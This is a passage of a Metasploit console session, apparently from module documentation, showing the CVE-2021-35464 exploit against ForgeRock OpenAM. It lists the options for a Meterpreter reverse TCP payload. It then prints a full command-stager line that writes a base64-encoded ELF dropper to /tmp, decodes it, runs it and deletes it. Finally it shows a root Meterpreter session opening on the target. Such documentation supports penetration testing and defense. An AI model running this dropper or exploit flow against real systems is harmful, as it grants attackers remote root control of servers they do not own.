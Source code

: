 ```
                                         machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /openam          yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.18.0.1       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf exploit(multi/http/cve_2021_35464_forgerock_openam) > exploit

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[+] Successfully executed command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwSAAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/rxeJM.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/drsZI' < '/tmp/rxeJM.b64' ; chmod +x '/tmp/drsZI' ; '/tmp/drsZI' ; rm -f '/tmp/drsZI' ; rm -f '/tmp/rxeJM.b64'
[*] Sending stage (3012548 bytes) to 172.18.0.2
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 2 opened (172.18.0.1:4444 -> 172.18.0.2:53510) at 2021-07-09 16:37:32 -0500

meterpreter > getuid
Server username: root @ 731c8d4b9b26 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.18.0.2
OS           : Debian 8.5 (Linux 5.8.0-59-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
